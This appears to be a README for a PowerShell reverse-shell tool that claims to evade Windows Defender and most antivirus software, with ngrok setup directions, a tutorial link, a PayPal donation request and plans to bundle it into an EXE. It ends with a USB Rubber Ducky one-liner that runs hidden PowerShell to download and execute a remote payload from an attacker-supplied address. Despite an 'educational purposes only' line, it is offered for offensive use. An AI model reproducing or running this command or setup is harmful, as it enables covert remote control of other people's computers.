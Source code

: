 # NC-REVERSE-SHELL
this powershell script bypasses windows defender and almost all antiviruses today 2020 edit the enjoy please no copy right love yall stay safe 2021 love yall 
make sure you have ngrok is not go to https://ngrok.com make an account and download it i have a youtube video on how to set everything up bery easy and simple ngrok can make encrypted tunnels over you wifi meaning that it makes a server of choice WEB or TCP 



YOUTUBE: https://youtu.be/NJH0nP7lv58



EDUCATIONAL POURPOSES ONLY PLEASE NO CUPYRIGHT ENJOY AND HACK THE WORLD!

i am currently working on binding this script to a EXE file so it automatically runs in powershell and i cant wait to make it for yall!
it would mean the world it anyone can donate to my paypal i will soon have a patreon where you can pay to have lessons and be taught by me and other at the same time or you can have private lessons aswell! 

PAYPAL: paypal.me/thegammerssimulant


LOVE YALL HAVE FUN!!!



if you have a USB rubber ducky 

powershell -w hidden "IEX (New-Object Net.WebClient).DownloadString('http://YOURIP/payload.ps1');"
